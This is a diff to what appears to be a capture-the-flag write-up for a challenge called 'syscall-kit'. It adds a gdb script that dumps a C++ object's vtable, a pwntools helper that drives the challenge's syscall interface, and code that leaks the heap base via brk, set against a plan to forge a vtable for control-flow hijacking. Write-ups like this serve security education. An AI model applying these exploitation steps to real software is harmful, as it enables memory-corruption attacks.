

zeropts

diff --git a/_posts/2025-05-29-syscall-kit.md b/_posts/2025-05-29-syscall-kit.md
@@ -389,7 +389,7 @@ C++ is an object oriented programming language.
 
 Virtual functions is a key mechanism to support polymorphism in C++.
 
-For each class with virtual functions, depending on the class inheritance hierarchy, the compiler will create one or more associated virtual function table (vtabe).
+For each class with virtual functions, depending on the class inheritance hierarchy, the compiler will create one or more associated virtual function table (vtable).
 
 Looking at the object's initialization, we can see that the `Emulator` instance is allocated on the heap:
 
@@ -420,17 +420,67 @@ gef> emu_dump 0x5555556162b0
 ===============================
 ```
 
+This is the gdb script
+
+```bash
+define emu_dump
+    set $base = (char *)$arg0
+
+    printf "====== Emulator @ %p ======\n", $base
+
+    set $vtable = *(void **)$base
+    printf "[+] vtable            : %p\n", $vtable
+
+    printf "[+] virtual functions\n"
+
+    set $i = 0
+    while $i < 4
+        set $fn = *(void **)($vtable + ($i * 8))
+        printf "    [%d] -> %p\n", $i, $fn
+        set $i = $i + 1
+    end
+
+    printf "===============================\n"
+end
+```
+
 Because the vtable pointer itself resides in a heap-allocated object, it becomes a writable target.
 
 If we can forge the vtable, then any subsequent virtual method call on the object would dereference our fake vtable and jump to our controlled function pointer instead.
 
+But before we perform a write, we need to know the location of the heap.
 
+Reading the man page for [brk](https://man7.org/linux/man-pages/man2/brk.2.html)
 
+![man1](man1.png)
 
+```
+Calling sbrk() with an increment of 0 can be used to find the current location of the program break.
+```
 
+The `program break` marks the point where the heap currently ends in the process's virtual address space.
 
+Here's the helper function I wrote:
 
+```python
+def syscall(sys_num, rdi=0, rsi=0, rdx=0):
+    io.sendlineafter(b"syscall:", str(sys_num).encode())
+    io.sendlineafter(b"arg1:", str(rdi).encode())
+    io.sendlineafter(b"arg2:", str(rsi).encode())
+    io.sendlineafter(b"arg3:", str(rdx).encode())
+    io.recvuntil(b"retval: ")
+    ret = int(io.recvline(), 16)
+    return ret
+```
 
+We can leak the heap address by doing this:
+
+```python
+PAGE = 0x21000
+
+heap_base = syscall(brk, 0) - PAGE
+info("heap base: %#x", heap_base)
+```
 
 
 ### Resources